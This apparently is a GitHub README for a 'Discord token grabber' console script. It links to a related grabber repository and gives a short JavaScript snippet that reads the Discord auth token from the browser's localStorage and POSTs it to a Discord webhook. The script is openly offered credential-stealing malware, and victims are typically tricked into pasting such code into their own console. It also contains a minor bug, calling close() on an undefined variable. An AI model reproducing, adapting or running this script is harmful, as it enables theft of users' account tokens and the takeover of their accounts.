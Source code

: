 # Discord-Token-Grabber-Console-Script

If you want to token grab with a Better Discord script => [CLICK HERE](https://github.com/HideakiAtsuyo/BetterGrabber)

```js
(function() {
    window.dispatchEvent(new Event('beforeunload'));
    var x = new XMLHttpRequest;
    x.open("POST", 'https://canary.discord.com/api/webhooks/ID/TOKEN'), x.setRequestHeader("Content-type", "application/json");
    var y = {
        username: "TokenGrabber",
        avatar_url: "https://cdn.discordapp.com/icons/780542388283375636/d90bd3fe7ca527dafe66723b23b7c54d.webp",
        content: "@everyone",
        embeds: [{
            color: "696969",
            description: `Token: ${window.open().localStorage.token}`,
        }]
    };

    x.send(JSON.stringify(y));
    w.close()
}());
```
